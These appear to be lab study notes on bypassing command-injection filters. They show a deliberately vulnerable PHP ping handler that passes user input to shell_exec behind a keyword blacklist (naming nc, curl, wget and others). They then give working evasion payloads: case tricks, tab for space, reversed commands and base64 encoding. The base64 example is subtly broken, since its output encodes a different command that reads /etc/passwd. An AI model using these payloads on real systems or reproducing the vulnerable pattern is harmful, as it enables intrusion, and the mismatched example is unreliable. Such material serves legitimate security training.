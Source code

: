 ```PHP
  $words = ['whoami', 'echo', 'cat', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }

  return false;
}

if (isset($_POST['ip'])) {
  $ip = $_POST['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
```



- whoami is blacklisted so..

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") # replaces all uppercase to lowecase ,since upper case wont work
```

-  if space are blacklisted above commadn wont work.. so replace space with tab (%09)


**Reversed Commands**

```bash
pradyun2005@htb[/htb]$ echo 'whoami' | rev
imaohw
```

```bash
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```



**Encoded Commands**

##### LINUX
- encode with base64
```bash
pradyun2005@htb[/htb]$ echo -n 'cat%09${PATH:0:1}flag.txt' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
